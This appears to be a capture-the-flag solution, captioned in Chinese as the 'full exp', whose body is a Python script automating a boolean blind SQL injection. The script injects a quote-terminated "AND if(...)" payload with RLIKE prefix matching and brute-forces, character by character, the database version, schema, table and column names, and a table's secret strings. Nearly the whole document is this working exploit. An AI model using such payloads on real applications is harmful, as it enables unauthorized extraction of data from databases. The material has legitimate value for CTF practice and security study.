 完整 exp 如下

```python
from mysqli_invisible_bool import *
import string
import io
import sys

def escape_string(c):
    return "\\" + c if c in ".+*" else c

def exp():
    payload_template = "Liki4' AND if({exp},1,0);#"
    space = string.ascii_letters + string.digits + ' _:,$.'

    exp_template = "@@version RLIKE '^{c}'"
    exp_template = "DATABASE() RLIKE '^{c}'"
    exp_template = "(SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) RLIKE '^{c}'"
    exp_template = "(SELECT binary GROUP_CONCAT(secret_string) FROM secret) RLIKE '^{c}'"

    print(exp_template)

    Flag = True

    data = ""

    while Flag:
        ori_stdout = sys.stdout
        for c in space:
            payload = payload_template.format(exp=exp_template.format(c=data+c))
            sys.stdin = io.StringIO(payload + '\n123\n')
            res = sys.stdout = io.StringIO()
            main()
            output = str(res.getvalue())
            if "failed" in output:
                continue
            if c == "$":
                Flag = False
                break
            if "success" in output:
                data += c
                break
        sys.stdout = ori_stdout
        if Flag:
            print(data, end="\r")
        else:
            print(data)

if __name__ == "__main__":
    exp()
```
